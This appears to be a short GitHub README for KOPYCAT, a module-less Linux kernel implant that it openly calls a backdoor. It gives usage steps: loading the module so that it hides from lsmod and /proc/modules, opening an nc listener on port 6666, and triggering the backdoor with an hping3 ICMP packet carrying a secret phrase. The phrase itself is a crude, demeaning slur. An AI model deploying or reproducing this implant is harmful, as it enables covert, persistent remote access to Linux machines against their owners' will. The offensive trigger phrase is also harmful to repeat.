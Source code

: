 # 0

KOPYCAT - Linux Kernel module-less implant (backdoor)

# Usage

~~~
$ make
$ sudo insmod kopycat.ko
insmod: ERROR: could not insert module kopycat.ko: Inappropriate ioctl for device
$ lsmod | grep kopycat
$ cat /proc/modules | grep kopycat
~~~

Launch `nc` listener:
~~~
$ nc -l 6666
~~~

Trigger the backdoor by sending ICMP packet with secret phrase:
~~~
$ sudo hping3 -c 1 -j -1 -e black-wives-are-fatter 127.0.0.1
~~~

# Author

[Ilya V. Matveychikov](https://github.com/milabs)

2021
